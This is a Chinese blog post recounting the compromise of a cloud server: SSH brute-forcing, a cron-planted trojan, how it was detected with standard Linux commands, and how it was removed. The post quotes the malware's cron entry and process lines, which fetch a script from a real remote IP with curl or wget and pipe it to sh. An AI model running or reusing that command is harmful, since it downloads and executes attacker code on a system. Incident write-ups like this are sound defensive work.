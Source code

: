 ```yaml
---
title: ECS遭遇安全攻击的一次经历
date: 2019-05-04 20:11:03
tags:
---
```


突然，腾讯云发出安全提示信息，先是SSH暴力破解的警告，过了几天又是ECS被植入木马的警告，Linux的安全防护被提上日程了！

# 服务器的问题表现

{% asset_img alert-0.png 腾讯云的警告信息汇总%}

- 登录ECS服务器，用`top`命令检查系统状态，发现CPU负荷长期维持100%，系统响应缓慢，其中`/tmp/vThHH`严重消耗资源，确认中招了！

{% asset_img alert-1.png SSH暴力破解的警告信息%}

- 服务器的root口令没有变化，但登录成功时提示有几百个`failed login attempts`，说明SSH口令已经被暴力破解

# 系统检查的主要工作

主要从以下几个方面入手：

1. 检查网络服务

使用`netstat -nlp`，发现除了22，80，443端口，还对外暴露了可疑的7946端口，调用者是`/tmp/vThHH`。

2. 检查系统进程

通过`ps -ef`命令，跟踪可疑进程`/tmp/vThHH`，发现父进程就是木马程序`/usr/bin/ybznfa2`。
进一步检查，发现了木马的加载进程。

```
root      4365   736  0 18:30 ?        00:00:00 /usr/sbin/CROND -n
root      4366  4365  0 18:30 ?        00:00:00 /bin/sh -c (/usr/bin/ybznfa2||/usr/libexec/ybznfa2||/usr/local/bin/ybznfa2||/tmp/ybznfa2||curl -m180 -fsSL http://109.237.25.145:8000/i.sh||wget -q -T180 -O- http://109.237.25.145:8000/i.sh) | sh
root      4367  4366  0 18:30 ?        00:00:00 /bin/sh -c (/usr/bin/ybznfa2||/usr/libexec/ybznfa2||/usr/local/bin/ybznfa2||/tmp/ybznfa2||curl -m180 -fsSL http://109.237.25.145:8000/i.sh||wget -q -T180 -O- http://109.237.25.145:8000/i.sh) |sh
```

3. 检查cron任务

该木马由crond启动，通过`crontab -u root -l`检查定时任务，发现每15分钟就执行一次上述bash脚本，这就是木马的埋点！

```
*/15 * * * * (/usr/bin/ybznfa2||/usr/libexec/ybznfa2||/usr/local/bin/ybznfa2||/tmp/ybznfa2||curl -fsSL -m180 http://109.237.25.145:8000/i.sh||wget -q -T180 -O- http://109.237.25.145:8000/i.sh) | sh
```

# 该木马的工作原理

- 通过网络爬虫等手段收集服务器域名信息
- 以服务器默认的root用户，通过ssh暴力破解获得口令
- 通过ssh登录，添加cron定时任务，从远端服务器下载木马程序，并存放在多个目录下
- 后台启动木马，打开自定义端口进行远程控制

# 处理措施

- 手工清理cron的任务清单
- 手工杀死`/tmp/vThHH`，`/usr/bin/ybznfa2`等可疑进程
- 手工删除上述木马程序
- 检查系统进程、网络服务、定时任务等状态，确认问题解决

# 如何彻底解决SSH暴力破解的威胁？

最有效的方法就是，关闭口令登录方式，改为密钥登录，请参见下一片文章。

**应该说，腾讯云提供的安全服务还是比较有效的，赞一个！**

---

# 附录：关于crontab的使用方法

- crond是常用的木马启动入口，主要的配置文件存放在 `/var/spool/cron/`目录下。

```
[root@VM_0_17_centos etc]# ls -l /var/spool/cron
总用量 4
drwxr-xr-x 2 root root 4096 4月  18 20:58 crontabs
-rw------- 1 root root    0 5月   5 11:10 root
```

- 也可能存放在`/etc/cron.d/`等类似目录下。

```
[root@VM_0_17_centos etc]# ls -lF /etc |grep cron
-rw-------.  1 root root      541 4月  11 2018 anacrontab
drwxr-xr-x.  2 root root     4096 4月  30 16:47 cron.d/
drwxr-xr-x.  2 root root     4096 8月   8 2018 cron.daily/
-rw-------.  1 root root        0 4月  11 2018 cron.deny
drwxr-xr-x.  2 root root     4096 8月   8 2018 cron.hourly/
drwxr-xr-x.  2 root root     4096 6月  10 2014 cron.monthly/
-rw-r--r--.  1 root root      451 6月  10 2014 crontab
drwxr-xr-x.  2 root root     4096 6月  10 2014 cron.weekly/
```
- cron的运行日志保存在`/var/log/cron`文件中，内容格式为

```
[root@VM_0_17_centos log]# head /var/log/cron

Dec 21 09:11:35 VM_0_17_centos crontab[1627]: (root) LIST (root)
Dec 21 09:11:35 VM_0_17_centos crontab[1626]: (root) REPLACE (root)
Dec 21 09:11:42 VM_0_17_centos crontab[1698]: (root) LIST (root)
Dec 21 09:11:42 VM_0_17_centos crontab[1702]: (root) LIST (root)
Dec 21 09:11:42 VM_0_17_centos crontab[1701]: (root) REPLACE (root)
Dec 21 09:11:42 VM_0_17_centos crontab[1728]: (root) LIST (root)
Dec 21 09:11:42 VM_0_17_centos crontab[1730]: (root) REPLACE (root)
Dec 21 09:12:02 VM_0_17_centos CROND[1811]: (root) CMD (/usr/local/qcloud/stargate/admin/start.sh > /dev/null 2>&1 &)
Dec 21 09:12:32 VM_0_17_centos crond[739]: (CRON) INFO (Shutting down)
```

- [crontab配置方法的参考文档](http://www.cnblogs.com/longjshz/p/5779215.html)

